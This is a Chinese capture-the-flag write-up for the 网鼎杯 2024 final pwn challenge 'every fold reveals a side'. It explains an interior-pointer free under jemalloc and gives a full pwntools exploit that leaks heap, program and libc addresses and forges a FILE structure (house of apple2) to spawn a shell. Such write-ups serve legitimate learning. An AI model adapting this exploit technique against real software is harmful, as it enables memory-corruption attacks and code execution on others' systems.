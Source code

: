 ```yaml
---
date: 2024-12-17 10:29:05
layout: post
title: every fold reveals a side
subtitle: 网鼎杯 2024 final writeup
description: >-
    复现一波吧
image: >-
  /assets/img/uploads/autumn_cat.jpg
optimized_image: >-
  /assets/img/uploads/autumn_cat.jpg
category: ctf
tags:
  - SECCON
  - TSG CTF
  - pwn
  - heap exploitation
author: rosayxy
paginate: true
---
```

唉，最近在家效率低到炸裂，沉迷各种言情小说（在现实世界里得不到的爱情只能从书中看了（流泪）），于是写博客督促自己不要过于摸鱼     
下面进入正题,附件见 [这里](/attachments/every-fold-reveals-a-side.zip)     

## 整体情况
这个题的特殊之处是他并没有用常规的 ptmalloc 而是用的 jemalloc，所以堆构造就完全不同了，然后看了之前的几个 jemalloc 相关的 writeup 感觉好像漏洞点也和本文的不同，所以就只能边打边摸索了     
## 漏洞点
在 switch-case 的 case6 处有一个 free 堆块内地址
```c
if ( !final_struct )
  exit(-1);
free((void *)(final_struct + v3[choice]));
*(_QWORD *)(final_struct + v3[choice]) = 0LL;
```
这种情况在 ptmalloc 里面大概率会 crash 掉，但是在 jemalloc 中则不会，于是写了以下序列来观察：
```py
fold(231)
uninstall()
fold(123)
```
发现 free 的堆块是 malloc 0x68_base + 0x10 然后再次 fold 的时候申请出来 0x68 的堆块也是和 free 地址相同，都是 0x68_base + 0x10，于是就类似于一个堆重叠原语    
之后一开始还不太清楚怎么用，只能 leak 一个堆地址，卡了一会看到可以来回切换 fold 的形态，并且如果之前申请过的话就会用原本的结构体来做后续操作，所以就大概知道怎么用这个堆重叠了     
最终相当于是有一个任意地址写 + 任意地址读原语，然后打 house of apple2 就行      
## exp
```py
from pwn import*
context(log_level="debug", arch="amd64", os="linux")
p=process("./pwn")
libc = ELF("./libc.so.6")
def fold(num):
    p.recvuntil("Enter your choice > ")
    p.sendline("1")
    p.recvuntil("Which direction?\n")
    p.sendline(str(num))

def edit(content):
    p.recvuntil("Enter your choice > ")
    p.sendline("2")
    p.recvuntil("Enter memo content > ")
    p.send(content)

def read():
    p.recvuntil("Enter your choice > ")
    p.sendline("3")

def delete():
    p.recvuntil("Enter your choice > ")
    p.sendline("4")

def play():
    p.recvuntil("Enter your choice > ")
    p.sendline("5")

def uninstall():
    p.recvuntil("Enter your choice > ")
    p.sendline("6")
    
def get_basic_info():
    p.recvuntil("Enter your choice > ")
    p.sendline("7")

def edit_basic_info(content):
    p.recvuntil("Enter your choice > ")
    p.sendline("8")
    p.recvuntil("Enter memo content > ")
    p.send(content)
    
# 下一次从被 free 的地址开始申请
# one gadget 0x583dc 0x583e3 0xef4ce 0xef52b
fold(231)
uninstall()
fold(123)
get_basic_info()
p.recvuntil("Basic info:\n")
p.recv(0x30)

heap_leak = u64(p.recv(6).ljust(8,b"\x00"))
# 0x7fca45625000 0x7fca45d93000
print(hex(heap_leak))
# edit pointer 123 的 0x18 的位置是 funcptr 的堆块
# leak proc
edit_basic_info(p64(0)*5+p64(0x100)+p64(heap_leak - 0x1000+0x10))
fold(231)
read()
p.recvuntil("Memo content:\n")
proc_leak = u64(p.recv(6).ljust(8,b"\x00"))
proc_base = proc_leak - 0x15bd
print(hex(proc_base))
# leak libc
fold(123)
edit_basic_info(p64(0)*5+p64(0x100)+p64(proc_base + 0x3f88))
fold(231)

read()
p.recvuntil("Memo content:\n")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))
libc_base = libc_leak - libc.sym["puts"]
print(hex(libc_base))
# arbituary address write
fold(123)
edit_basic_info(p64(0)*5+p64(0x100)+p64(heap_leak + 0x1000))
fold(231)
io_list_all = libc_base + 0x2044C0
system_addr = libc_base + libc.sym["system"]
heap_addr = heap_leak + 0x1000
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file = fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(heap_addr+0xe8)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(heap_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x202228+libc_base)
fake_io_file+=p64(heap_addr)
fake_io_file += p64(0)+p64(heap_addr+0xe8)
edit(fake_io_file)
fold(123)
edit_basic_info(p64(0)*5+p64(0x100)+p64(io_list_all))
fold(231)
edit(p64(heap_addr))
fold(111)
p.interactive()

```